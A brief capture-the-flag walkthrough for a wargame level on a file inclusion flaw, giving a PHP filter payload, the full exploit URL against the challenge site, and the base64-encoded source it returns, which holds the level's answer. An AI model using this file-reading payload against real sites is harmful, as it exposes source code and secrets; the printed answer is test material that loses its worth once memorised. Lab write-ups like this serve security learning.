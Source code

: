 ## Level 15 - Warchall: Live RFI (Local File Inclusion)

### Instructions
- Use the following PHP filter to read and encode the content of the "solution.php" file in base64:
   ```php
   php://filter/read=convert.base64-encode/resource=solution.php
   ```

- Access the vulnerable endpoint: 
[https://rfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php](https://rfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php)

-  Decode the base64-encoded content [here](https://www.base64decode.org/) to reveal the solution.
> PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K
